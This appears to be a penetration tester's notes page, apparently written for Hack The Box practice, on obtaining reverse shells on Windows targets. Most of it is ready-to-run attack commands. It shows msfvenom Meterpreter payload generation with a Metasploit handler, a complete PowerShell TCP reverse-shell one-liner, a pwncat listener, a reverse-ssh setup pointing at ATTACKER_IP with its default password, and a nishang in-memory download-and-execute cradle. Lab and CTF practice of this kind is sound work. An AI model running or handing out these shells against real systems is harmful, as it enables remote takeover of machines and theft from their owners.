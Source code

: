 # Shells

## Normal Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/windows" %}

### Meterpreter

First, generate the file which, when executed, starts a reverse shell on the targeted host. Here's an example of an aspx shell:&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.73" LPORT=4444 -f aspx -o reverse.aspx
```

Then, in your attacker machine, run Metasploit and start a handler:

```
msfconsole 
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set LPORT 4444 
set LHOST 10.10.14.73 
run
```

Replace the port and IP address with your own ones, of course.

### Interactive Powershell Reverse Shell

Caveat: **stderr doesn't work!**

```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('IP_ADDRESS_HERE', PORT_NUMBER_HERE);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Full TTY Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys#full-tty" %}

### Pwncat

Caveat: I've tested it on 2 Windows boxes in HTB, and it **didn't work in either one**.&#x20;

Probably a good idea to switch to bash if using ZSH:&#x20;

```
exec bash --login
```

If your target machine doesn't have internet access, then you'll need to download the plugins first:&#x20;

```
pwncat --download-plugins
```

Listen on port 4444:&#x20;

```
pwncat -m windows -lp 4444
```

Then connect to the pwncat with either a powershell.exe or cmd.exe reverse shell:&#x20;

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Reverse SSH Shell

{% embed url="https://github.com/Fahrj/reverse-ssh" %}

Features:

* Full TTY shell
* File sharing via SFTP
* Port forwarding

[Requirements](https://github.com/Fahrj/reverse-ssh#requirements):

* At least Windows 7  or Windows server 2008 (Windows 10 for conpty, need workaround for lower windows versions for full TTY functionality)
* Linux kernel version 2.6.23 and higher

Caveats:

* SCP doesn't seem to work
* SSH port forwarding doesn't seem to work
* It hangs sometimes

Evades antivirus: Don't know

First run this on your machine:

```
./reverse-ssh -v -l :4444
```

Then the following on the victim machine (you can use the upx packed executable, use ssh-shellhost on older machines):

```
.\upx_reverse-sshx86.exe -p 4444 kali@ATTACKER_IP
```

And finally on your machine:

```
ssh -p 8888 127.0.0.1
```

The default password is **letmeinbrudipls**

**NB!** If the target doesn't have conpty (pre-windows 10, build 17763), then you need the following workaround:

```
upx_reverse-sshx86.exe -p 4444 -s ssh-shellhost.exe kali@ATTACKER_IP
```

The shellhost.exe executable needs to be in the same directory. It's an executable from [OpenSSH](https://github.com/PowerShell/Win32-OpenSSH/releases/).

### Rlwrap with nishang

{% embed url="https://book.hacktricks.xyz/shells/shells/windows#ps-nishang" %}

Serve the script on your machine. Then download the nishang shell to memory:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://IP:PORT/Invoke-PowerShellTcp.ps1');
```

Start a listener on SOME\_PORT on the attacker machine. Use [rlwrap](https://infinitelogins.com/2020/12/12/improving-windows-powershell-reverse-shells-for-up-down-arrows/) as explained here (not tested).

Then run the reverse shell.&#x20;

```
Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port SOME_PORT
```

### Socat

I think socat can be used to make a decent reverse shell?

{% embed url="https://stackoverflow.com/questions/60287549/socat-how-to-create-a-windows-reverse-shell" %}

[\
](https://book.hacktricks.xyz/shells/shells/windowshttps://book.hacktricks.xyz/shells/shells/full-ttys#full-tty)
